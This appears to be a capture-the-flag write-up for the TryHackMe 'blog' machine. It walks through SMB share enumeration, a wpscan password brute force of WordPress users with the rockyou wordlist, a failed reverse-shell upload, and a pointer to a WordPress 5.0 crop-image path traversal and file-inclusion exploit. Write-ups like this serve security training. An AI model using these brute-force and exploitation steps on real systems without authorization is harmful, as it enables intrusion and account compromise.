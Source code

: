 ## smb
```console
bibo318@parrot:~$ smbclient -L \\\\blog.thm
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
bibo318@parrot:~/THM/blog$ smbclient \\\\blog.thm\\BillySMB
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 14:17:05 2020
  ..                                  D        0  Tue May 26 13:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020

                15413192 blocks of size 1024. 9788792 blocks available
smb: \> get Alice-White-Rabbit.jpg 
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (48.4 KiloBytes/sec) (average 48.4 KiloBytes/sec)
smb: \> get tswift.mp4 
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (665.4 KiloBytes/sec) (average 498.5 KiloBytes/sec)
smb: \> get check-this.png 
getting file \check-this.png of size 3082 as check-this.png (16.9 KiloBytes/sec) (average 466.4 KiloBytes/sec)
smb: \> exit
```

seem like smb shared file are a trap :P

# Foothold
let start with brute forcing to gain access to wordpress dashboard
```console
bibo318@parrot:~/THM/blog$ wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel,bjoel
```
After some time, you will get the 1 credential with auther priv


I try to upload reverse shell ``.phtml`` in media but it didnt work (I wish lol). But from the dashboad we will see that the current version of the wordpress is 5.0. google 'metasploit wordpress 5.0' you will find [this](https://www.exploit-db.com/exploits/46662)


Note from the expliot:
This module exploits a path traversal and a local file inclusion
vulnerability on WordPress versions 5.0.0 and <= 4.9.8.
The crop-image function allows a user, with at least **author privileges**,
to resize an image and perform a path traversal by changing the _wp_attached_file
reference during the upload. The second part of the exploit will include
this image in the current theme by changing the _wp_page_template attribute
when creating a post
